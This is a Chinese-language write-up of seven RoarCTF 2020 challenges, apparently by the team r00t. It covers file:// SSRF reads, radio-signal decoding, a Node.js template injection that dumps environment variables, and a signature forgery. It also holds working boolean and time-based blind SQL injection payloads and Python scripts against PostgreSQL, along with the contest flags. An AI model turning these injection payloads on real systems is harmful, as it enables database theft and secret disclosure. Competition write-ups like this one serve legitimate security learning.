# RoarCTF 2020

by r00t

两个一血，张师傅tql

## 签到题

打开页面啥也没有，以为题目又没加载出来。查看源码得到`/?url=`提示，尝试传入一个url，结果回显了对应页面的源码，推测这里有类似`file_get_contents`的操作。





尝试`file://`协议读本地文件，成功，可以读到网页源码，发现对`flag`做了简单过滤。





URL编码双写绕过之，得到flag。



flag：`flag{ccf9f0dd01b0d5ab49058e519351b6aa}`

## Hi_433MHz

得到的文件内容完全没有规律和肉眼可见的结构。简单的查阅资料得知，harkrf保存的信号数据不包含任何元数据，且数据的二进制结构由扩展名标注。本题文件的扩展名为`.s8`，代表有符号8位整数。使用audacity的Import Raw Data功能，使用上述信息导入数据（采样率未知，保持默认）：



放大一个“波峰”，可以看到数据使用信号的有无及持续时间而非强度进行编码，类似莫尔斯电码，但是每组信号的总长度固定：



怀疑每一组信号代表flag中的一个字符，尝试将前几足信号与flag的首字符（`flag{`，0x66、0x6c……）进行对应，发现编码方式：连续的信号代表1、连续的无信号代表0，短的信号脉冲用于每位间的分割，每组信号编码一个字符的8位ASCII码。按信号波形读出二进制数据，解码得到flag：



flag：`flag{25c21b0d-6a11-4312-971b-428d01cdc534}`

## FM

有了前一道题处理hackrf信号数据的经验，尝试继续用audacity观察波形。注意到文件中数据每4字节具有一定规律，可以解出0~1区间的32位浮点数：



由文件扩展名可知这些是I/Q调制的数据，可以视为复数，实部和虚部交替存储。由此可知audacity导入选项（采样率由文件名知为2MHz，但是受audacity支持所限，视为200kHz，后续所有频率表述不受此影响）：



作频谱图可以容易的识别出信号的中心频率（为48kHz左右），证实了上图中的各数据属性：



对信号进行[FM解调](https://blog.csdn.net/balee11/article/details/75450877)：

```python
import numpy as np
y = np.fromfile('fm-sample-rate-2MHz.iq', dtype = np.complex64)
re1 = y.real[:-1]
re2 = y.real[1:]
im1 = y.imag[:-1]
im2 = y.imag[1:]
y_demod = im2 * re1 - im1 * re2
y_demod = y_demod / np.max(np.abs(y_demod))
y_demod.tofile('out2.bin')
```

输出数据格式为单通道32位浮点数，采样率2MHz。作频谱图，除去噪声基底外，信号主要集中在48kHz频段上，由[FM频段分布图](https://en.wikipedia.org/wiki/File:RDS_vs_DirectBand_FM-spectrum2.svg)知这是立体声信号的右声道部分：



进行降采样，将上述信号的采样率降低10倍（200kHz），转换为可以处理和收听的音频信号：

```python
import numpy as np
import scipy.signal
y = np.fromfile('out2.bin', dtype = np.float32)
y_dec = scipy.signal.decimate(y, 10, ftype = 'fir')
y_dec.tofile('out2-dec.bin')
```

上述过程同时进行了低通滤波，过滤掉了噪声。也可以使用audacity的Change Speed功能实现降采样过程，设置Speed Multiplier为10.000即可。最终得到原始音频信号如下，由语音内容得到flag：



flag：`flag{82c83416-dadc-4947-80df-b84852b8f35d}`

## 你能登录成功吗

一个登录界面，题目描述登录成功就有flag，页面里提示是postgresql数据库。password字段存在注入，经过一番测试之后发现：

1. 不管是否登录成功，都会返回密码或用户名错误
2. 如果sql不报错，会将sql语句原样打印出来
3. 如果sql报错，则不会打印sql语句

构造一个bool盲注查询，通过让`pow()`函数异常和不异常来区分返回结果

```sql
or/**/pow(9,(case/**/when/**/substr((select/**/password/**/from/**/users),{},1)='{}'/**/then/**/999/**/end))='1'
```

盲注脚本

```python
import requests

chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_-'
ans = ''
j = 0
s = requests.Session()
for i in range(1,20):
    for ch in chars:
        payload = "qwer'or/**/pow(9,(case/**/when/**/substr((select/**/password/**/from/**/users),{},1)='{}'/**/then/**/999/**/end))='1".format(i,ch)
        data = {'username':'admin','password':payload}
        res = s.post('http://139.129.98.9:30005',data)
        if("qwer" not in res.text):
            ans += ch
            print(ans)
            break
```

## 你能登录成功吗-Revenge

在`你能登录成功吗`的基础上，去掉了bool盲注的区分标志，但是可以通过延时来判断

```sql
  and/**/(substr((select/**/password/**/from/**/users),{},1)='{}'/**/and/**/(SELECT/**/7563/**/FROM/**/PG_SLEEP(1))=1)and'1'='1'
```

这里有一个坑就是，postgresql的比较是区分类型的，不能使用`or PG_SLEEP(1)=1`这种语句，所以只能把它放在from里，再select出一个数据。

盲注脚本

```python
import requests
import time

chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_-'
ans = ''
j = 0
s = requests.Session()
for i in range(1,20):
    for ch in chars:
        payload = "qwer1'and/**/(substr((select/**/password/**/from/**/users),{},1)='{}'/**/and/**/(SELECT/**/7563/**/FROM/**/PG_SLEEP(1))=1)and'1'='1".format(i,ch)
        data = {'username':'admin','password':payload}
        t1 = time.time()
        res = s.post('http://139.129.98.9:30007',data)
        t2 = time.time()
        if(t2 - t1 > 1):
            ans += ch
            print(ans)
            break
```

## HTML在线代码编辑器

比赛结束之后环境没了，只能靠回忆写= =

页面有一个写html的功能，和一个渲染html的功能。在渲染功能那里是一个`file=`，第一反应是任意文件读，但是失败了，他加了过滤。后来加一个不存在的文件试了一下，发现后面是个nodejs，貌似还是一个模板引擎，考虑一下模板注入。

发现了一个上传功能，随手试了一下`{{9-4}}`，但是原样回显了，看了一下url，发现是直接访问的tmp目录里的问题，然后就想到了刚才那个模板引擎，扔进去一试，5出来了，大喜。

题目描述说flag在环境变量里，所以就构造js语句把所有的环境变量都打出来

```js
{{Object.values(process.env)}}
```

回显

```    
12.20.0,86e7395b2b1b,1.22.5,/root,/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin,6bc87220adada7c3629ab933ad12433c,flag{8e1a4c4f-fc41-4d6b-8f17-d5a05e30dd36},/usr/local/app
```

## Crypto_System

nc连接，首先出现验证，

```
sha256(XXXX+L1ZyTwlYvXDaijzA) == fd8774478154f94f6199b4bad523a39a22279cb587967a4331df97988535b5cb
Give me XXXX:
```

简单的爆破可以得出XXXX

爆破脚本exp:

```python
import hashlib
import binascii
import gmpy2
def calc(buf1,buf2):
    dest="0000"
    for a in range(48,122):
        dest=chr(a)+dest[1:]
        for b in range(48,122):
            dest=dest[0:1]+chr(b)+dest[2:]
            for c in range(48,122):
                dest=dest[0:2]+chr(c)+dest[3:]
                for d in range(48,122):
                    dest=dest[0:3]+chr(d)
                    s = hashlib.sha256()
                    s.update((dest+buf1).encode()) 
                    # print(dest)
                    if s.hexdigest()==buf2:
                        print(dest)
                        print("success")
                        return 
calc("L1ZyTwlYvXDaijzA","fd8774478154f94f6199b4bad523a39a22279cb587967a4331df97988535b5cb")
```

验证通过，正式进入题目。
题目给出m1,m2,r1
要求输入输入r2,s2通过验证

```python
def verify(m, r, s):
    y, h, b = get_parameter(m)
    if s == ((y * powmod(h, r, p)) % p):
        return True
    else:
        return False

# Give me the (r2,s2)
if r2 != r1 and s2 == s1 and verify(m2, r2, s2):
    print("Congratulation!Here is your flag: %s" % flag)
```

其中，

```python
def int2str(data, mode="big"):
    if mode == "little":
        return sum([ord(data[_]) * 2 ** (8 * _) for _ in range(len(data))])
    elif mode == "big":
        return sum([ord(data[::-1][_]) * 2 ** (8 * _) for _ in range(len(data))])

def get_parameter(m):
    x = int2str(m, 'little')
    y = powmod(g, x, p)
    a = bytes_to_long(hashlib.sha256(long_to_bytes(y).rjust(128, "\0")).digest())
    b = powmod(a, a, p - 1)
    h = powmod(g, b, p)

    return y, h, b

def sign(m):
    y, h, b = get_parameter(m)
    r = getStrongPrime(512)
    s = (y * powmod(h, r, p)) % p 

    return str(r),str(s)

```

若$s1=s2$
$$y1 \times {h1}^{r1} \equiv y2 \times {h2}^{r2} (mod \ p)$$
$$g^{x1+b1 \cdot r1} \equiv g^{x2+b2 \cdot r2} (mod \ p) $$
$$x1+b1 \cdot r1 \equiv x2+b2 \cdot r2 (mod \ {p-1)}$$

其中x1,b1,r1,x2,b2,p-1均已知，则变成关于r2的一次同余式子，则可根据公式求解r2

完整exp：

```python
import hashlib
import binascii
import gmpy2
from Crypto.Util.number import *
p = 12039102490128509125925019010000012423515617235219127649182470182570195018265927223
g = 10729072579307052184848302322451332192456229619044181105063011741516558110216720725
def calc(buf1,buf2):
    dest="0000"
    for a in range(48,122):
        dest=chr(a)+dest[1:]
        for b in range(48,122):
            dest=dest[0:1]+chr(b)+dest[2:]
            for c in range(48,122):
                dest=dest[0:2]+chr(c)+dest[3:]
                for d in range(48,122):
                    dest=dest[0:3]+chr(d)
                    s = hashlib.sha256()
                    s.update((dest+buf1).encode()) 
                    # print(dest)
                    if s.hexdigest()==buf2:
                        print(dest)
                        print("success")
def hexStr_to_str(hex_str):
    hex = hex_str.encode('utf-8')
    str_bin = binascii.unhexlify(hex)
    return str_bin.decode('utf-8')

def int2str(data, mode="big"):
    if mode == "little":
        return sum([ord(data[_]) * 2 ** (8 * _) for _ in range(len(data))])
    elif mode == "big":
        return sum([ord(data[::-1][_]) * 2 ** (8 * _) for _ in range(len(data))])

def get_parameter(m):
    x = int2str(m, 'little')
    y = pow(g, x, p)
    a = bytes_to_long(hashlib.sha256(long_to_bytes(y).rjust(128, "\0")).digest())
    b = pow(a, a, p - 1)
    h = pow(g, b, p)
    # print(x)
    # print(b)
    # return x,b
    return y,h,b,x


# calc("ToMwVWGrFt6lq87d","4a4f3f3e8c9dbc912e51bf662f511af913fad26587c0bbb2860ab9a8f1de08ec")

m1="6851366d3844465e763b69674231212230405e5d605773796538286a4b6d24683c7a257c2c6f3a7b5e452d3e276e594b2c7222443d552e5c6c4b37775626262f"
m2="4c436e47243a5b5044763a4d23613c426e3b4a22734a3d2927472c516b226f5f33553c3e4b7143535e4b257c564b4f3d544c41637628694250716d577e613d5e"
r1=13307157911474497325257929676036948733445379516133193902363508307807244520530420462894958525330581772479724484043351068294357383114453924547068394433943751
y1,h1,b1,x1=get_parameter(hexStr_to_str(m1))
y2,h2,b2,x2=get_parameter(hexStr_to_str(m2))


b=(r1*b1+x1-x2)%(p-1)
a=b2
m=12039102490128509125925019010000012423515617235219127649182470182570195018265927222
phi_m=3438486168439863199139442674478708048513091438880592029152171119773032205130254400
# print(a,b,m)
print(gmpy2.gcd(a,m))
print(gmpy2.gcd(gmpy2.gcd(a,m),b))

r2=b*pow(a,phi_m-1,m)
print("r2=",r2)

print((r2*a)%m)
print(b)

print("s1=",(y1 * pow(h1, r1, p)) % p)
print("s2=",(y2 * pow(h2, r2, p)) % p)
```




